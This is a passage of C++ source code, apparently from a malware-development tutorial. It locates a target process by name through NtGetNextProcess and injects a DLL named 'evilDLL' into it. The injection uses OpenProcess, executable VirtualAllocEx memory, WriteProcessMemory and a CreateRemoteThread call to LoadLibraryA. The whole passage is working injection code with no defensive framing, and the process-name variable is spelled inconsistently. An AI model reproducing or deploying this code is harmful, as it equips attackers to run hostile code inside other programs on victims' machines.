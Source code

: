 ```cpp
  // resolve function address
  fNtGetNextProcess myNtGetNextProcess = 
  (fNtGetNextProcess) GetProcAddress(GetModuleHandle("ntdll.dll"), "NtGetNextProcess");

  // loop through all processes
  while (!myNtGetNextProcess(current, MAXIMUM_ALLOWED, 0, 0, &current)) {
    GetProcessImageFileNameA(current, procName, MAX_PATH);
    if (lstrcmpiA(procname, PathFindFileName((LPCSTR) procName)) == 0) {
      pid = GetProcessId(current);
      break;
    }
  }

  return pid;
}

int main(int argc, char* argv[]) {
  int pid = 0; // process ID
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  LPVOID rb; // remote buffer
  pid = findMyProc(argv[1]);
  printf("%s%d\n", pid > 0 ? "process found at pid = " : 
  "process not found. pid = ", pid);

  HMODULE hKernel32 = GetModuleHandle("kernel32");
  VOID *lb = GetProcAddress(hKernel32, "LoadLibraryA");

  // open process
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(pid));
  if (ph == NULL) {
    printf("OpenProcess failed! exiting...\n");
    return -2;
  }

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, evilLen, (MEM_RESERVE | MEM_COMMIT),
   PAGE_EXECUTE_READWRITE);

  // "copy" evil DLL between processes
  WriteProcessMemory(ph, rb, evilDLL, evilLen, NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)lb, rb, 0, 
  NULL);
  CloseHandle(ph);

  return 0;
}
```
